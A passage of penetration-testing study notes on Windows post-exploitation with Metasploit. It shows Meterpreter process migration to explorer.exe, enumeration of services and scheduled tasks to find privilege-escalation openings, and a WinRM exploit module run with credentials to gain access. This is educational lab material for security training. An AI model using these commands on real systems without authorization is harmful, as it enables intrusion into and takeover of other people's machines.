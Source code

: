 ```shell
# We can utilize meterpreter to search for specific processes that are of interest to you
pgrep
migrate 2160 (explorer ID)
# OR
pgrep explorer.exe
# So whenever we're trying to obtain a stable meterpreter session is always recommended to migrate to explorer.exe, primarily because explorer.exe is rarely stopped or has any issues in terms of stability.

# Enumerate a list of running processes on the Windows target.
ps

shell
# We can enumerate a list of running services 
net start

# We can learn more about the running services 
wmic service list brief

# We can also enumerate a list of running tasks and the corresponding services for each task.
tasklist /SVC

# List of scheduled tasks on the Windows target
schtasks /query /fo LIST # A lot of info so we need to copy paste in a document separately
# This information is important because in certain cases, scheduled tasks could be misconfigured or configured in a way that makes them vulnerable to exploitation, and most specifically, they can be exploited in some cases to elevate our privilege. 
```

### 1.5. Automating Windows Local Enumeration - Windows

**Objective:** To automate local enumeration on Windows by leveraging various post-exploitation Metasploit modules and local enumeration scripts.

**Gain access to the target system**

```shell
# Port scanning with Nmap
ping -c 1 <target_IP>
nmap -sV -p- <target_IP>
#  The Nmap scan reveals that the WinRM port is open on the target system
# Gain access to the system
service postgresql start && msfconsole
use exploit/windows/winrm/winrm_script_exec
set RHOSTS <target_IP>
set USERNAME <username>
set PASSWORD <password>
set FORCE_VBS false
exploit
background
```
